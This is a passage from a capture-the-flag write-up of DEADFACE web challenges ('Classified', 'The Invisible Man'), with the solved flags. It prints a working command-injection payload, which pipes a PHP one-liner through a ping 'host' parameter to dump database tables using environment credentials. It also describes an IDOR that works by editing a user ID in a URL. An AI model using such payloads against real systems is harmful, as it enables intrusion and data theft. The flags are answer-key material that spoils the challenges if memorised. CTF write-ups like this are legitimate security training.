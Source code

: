 ```sql
	[content] => FLAG: deadface{h1dd3n_4nn0unc3m3nts_r3v34l_s3cr3ts} 
	[2] => FLAG: deadface{h1dd3n_4nn0unc3m3nts_r3v34l_s3cr3ts} )
```
 
`deadface{h1dd3n_4nn0unc3m3nts_r3v34l_s3cr3ts}`

___

## Classified

**Category:** web

**Author:** @syyntax

**Description:** NVU had confidential research data that was compromised by DEADFACE and leaked to the public. NVU insists that their confidential data was safeguarded and only provided to authorized users on the web app. See if you can identify the flag associated with the classified research present on the web application. Submit the flag as `deadface{flag text}`. [http://env01.deadface.io:8080](http://env01.deadface.io:8080). 

Again, at this point I have RCE. Im not sure what intended solution is. I got the flag from the same command I used in the `Not-So-Public Domain` challenge:
```php
ping_host=1&host=8.8.8.8 | php -r '$h=getenv("DB_HOST")?: "db"; $d=getenv("DB_NAME")?: "nvu_portal"; $u=getenv("DB_USER")?: "nvu_user"; $p=getenv("DB_PASS")?: "NightVale2023!"; $pdo=new PDO("mysql:host=$h;dbname=$d;charset=utf8mb4",$u,$p,[PDO::ATTR_ERRMODE=>PDO::ERRMODE_EXCEPTION]); foreach($pdo->query("SELECT id,project_name,details FROM research_projects WHERE classified=1") as $r){print_r($r);} foreach($pdo->query("SELECT id,title,content FROM announcements WHERE is_hidden=1") as $r){print_r($r);}'
```
 
`deadface{cl4ss1f13d_r3s34rch_unh4ck4bl3}`

___

## The Invisible Man

**Category:** web

**Author:** @syyntax

**Description:** It’s believed that DEADFACE compromised more than just one user on the web app. NVU prevents certain users from being displayed. See if you can find the flag associated with a privileged user. Submit the flag as `deadface{flag text}`. [http://env01.deadface.io:8080](http://env01.deadface.io:8080). 

I visit `http://env01.deadface.io:8080/admin.php?view_user=1&source=ui` and I can see users 1-15 listed.

At `http://env01.deadface.io:8080/admin.php?view_user=16` I can see the flag once `&source=ui` is removed from the link.

`deadface{1ns3cur3_d1r3ct_0bj3ct_r3f3r3nc3}`

___

I found this with RCE. Seems like an unused flag:

`deadface{d1r3ct0ry_tr4v3rs4l_m4st3r}`
